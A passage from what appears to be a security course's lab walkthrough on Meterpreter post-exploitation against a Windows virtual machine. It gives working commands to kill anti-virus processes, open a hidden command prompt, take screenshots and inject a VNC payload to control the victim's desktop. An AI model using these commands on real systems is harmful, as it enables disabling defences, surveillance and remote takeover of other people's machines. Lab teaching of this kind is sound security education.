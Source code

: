 
## Kill AV

19. With a Meterpreter shell, you have access to a trove of post-exploit modules included in the Metasploit framework that you can run on the victim machine. For instance, type

        run post/windows/manage/killav

    to stop anti-virus processes that might limit our attacks on the machine.


## Open Windows command prompt

20. You can execute commands on the victims host from within Meterpreter. For example, type:

        execute -f cmd.exe -c

    This will launch cmd.exe on the victim’s machine. You can hide the command window from being shown on the victim machine by using the `-H` option.

    The `-c` option “channelizes” the cmd.exe, which means that meterpreter can continue interacting with it. Notice the message that “Channel 1 was created.”

    Interact with cmd.exe by typing: `channel -i 1`. Use the `dir`, `cd`, and `cd ..` commands to browse around the file system. Type `exit` to return to meterpreter.

    <div class='info info-alert'>Since opening a command prompt is such a common action, you can simply type <code>shell</code> to open a hidden command prompt.</div>


## Screenshot

22.	Type `screenshot` to capture a screenshot of the current GUI. A jpeg file should be saved to `/root` on your Kali machine. You can view the image from a different shell in Kali by navigating
    to the directory of the stored image and viewing it with `mirage [image name]`.


## VNC payload


<div class='alert alert-warning'><strong>Not working, skip!</strong> The VNC exploit is not working at the moment. Skip this.</div>

23.	Control the Windows GUI.

    From meterpreter, type `background`  or `cntl+z`. This sends the current meterpreter session to the background so you can do more things in the Metasploit console.

    For this, we will use a different payload -- the `vncinject` payload.

        set payload windows/vncinject/bind_tcp

    Type `show options`. Change the "ViewOnly" option to `false`

        set ViewOnly false

    Run `exploit` anew.

    A new window will open on Kali Linux that will let you control the Windows VM using the mouse. <span class='label label-success'>You are now controlling the Windows user interface!</span> Whatever you do, the logged-in user will see!
    Trying moving a window on the Windows VM. Then, close the VNC window on the Kali VM. Because you closed the VNC window, the exploit terminated.
